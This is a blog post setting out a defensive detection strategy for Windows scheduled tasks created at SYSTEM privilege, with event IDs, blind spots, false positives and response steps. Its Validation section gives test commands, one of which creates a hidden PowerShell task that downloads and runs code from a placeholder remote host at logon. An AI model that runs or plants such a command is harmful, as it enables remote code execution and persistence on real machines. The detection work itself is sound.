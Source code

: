 ```yaml
---
layout: post
title:  "Suspicious System Scheduled Task/Job ADS"
date:   2022-05-31 12:44:14 -0400
categories: review
---
```


## Suspicious System Scheduled Task/Job
***
### Goal
Detect when Scheduled Tasks are created or modified to run at System Level Privileges. This may be indicative of an attempt for an attacker or malware to establish persistesence on a Windows machine. 

***

### Categorization
These attemps are categorized as [Execution / Scheduled Task/Job ](https://attack.mitre.org/techniques/T1053/)

***

### Strategy Abstract
The strategy will function as follows:
- Monitor window event codes on Windows Systems.
- Define the command line arguments that need to be detected on.
- Supress any known & non-malicious tasks (depending on client size, this approach can differ)
- Alert on any tasks that are created or modified at System Level Privileges.

*** 

### Technical Context

A Scheduled task is a command, program, or script to be executed at a particular time in the future on Windows machines. This can vary based on the conditions provided to execute when a user logs on or a regular interval. System Admin use these to create and run operational tasks much like cronjobs on Linux machines. 

With that being said, these can be morphed to be used in a malicious manner. Advesaries use these already existing functionality on Windows systems to establish persistence whether that would be on start up or a Command and Control Server.

When configuring the scheduled tasks, the following event IDs are of interest for this ADS:

|Event Code | Description|
-------------| ------------|
	4698 |  A scheduled task was created
	4699 | A scheduled task was deleted
	4700 | A scheduled task was enabled
	4701 | A scheduled task was disabled
	4702 | A scheduled task was updateds

For this ADS, the event IDs that will be focused on will be 4698, 4700, and 4702. Sysmon also provides some event codes such as Event Code 1 that schtask.exe executes. 

For this detection we will look for scheduled tasks created with System level privileges

***
### Blind Spots and Assumtions
This strategy relies on the following assumptions:
- The Machine is proper logging the proper Windows Event Log and sending to WEF Servers.
- WEF servers are correctly forwarding events to the SIEM.
- SIEM is successfully indexing group change events.

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert:
- Windows event logging breaks.
- The SIEM UC job is running at all time.

***

### False Positives
With this being a built in functionality, the usage on this can vary depending on the size of the enviroment. There are serveral instances where false positives for this ADS could occur:
- Legitimate tasks created by System Administrators. 
- Drivers and OS support creation of scheduled tasks such as power savers on laptops. 

*** 

### Priority
The priority is set to medium under all conditions.

***

### Validation
```
schtasks /create /tn test /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://x.x.x.x:8080/x'''))'" /sc onlogon /ru System
schtasks /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"
```

***

### Response
In the event that this alert fires, the following response procedures are recommended:
- Triage of the host system and if the activity is normal.
	- Note the account that created it, suspicious arguments, or abnormal timeframe.
- Identify what the schedule task is performing
	- ex: Execution of binary, in memory powershell execution, connection to web server
- Use endpoint EDR or tool to invesitage or isolate the host.

***

### Additional Resources
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md